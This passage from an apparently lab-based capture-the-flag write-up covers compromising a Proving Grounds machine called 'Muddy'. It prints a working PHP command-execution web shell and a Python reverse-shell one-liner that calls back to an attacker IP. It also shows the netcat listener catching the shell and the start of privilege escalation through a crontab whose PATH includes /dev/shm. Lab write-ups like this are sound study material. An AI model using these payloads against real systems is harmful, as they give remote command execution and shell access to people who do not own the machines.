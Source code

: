 Directo to `webdav` directory and trigger the shell.

![img](/assets/images/CTF/Proving_Grounds/Muddy/webdav2.png)

**PHP Code Execution Payload**

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

Now check the python version and create reverse shell payload and obtain reverse shell.

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.200",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

```sh
naveenj@hackerspace:|22:38|~/proving_grounds/Muddy$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.45.200] from (UNKNOWN) [192.168.196.161] 40106
www-data@muddy:/var/www/html/webdav$
```

**Initial Foothold Obtained**

## Privilege Escalation

Download and run [linpeas](https://github.com/carlospolop/PEASS-ng/releases/download/20231008-041e379c/linpeas.sh) on the attacking machine.

The script results shows the user has write accesst to `/dev/shm` folder and a cronjob is running.

**Cronjob**

```sh
www-data@muddy:/dev/shm$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/dev/shm:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
```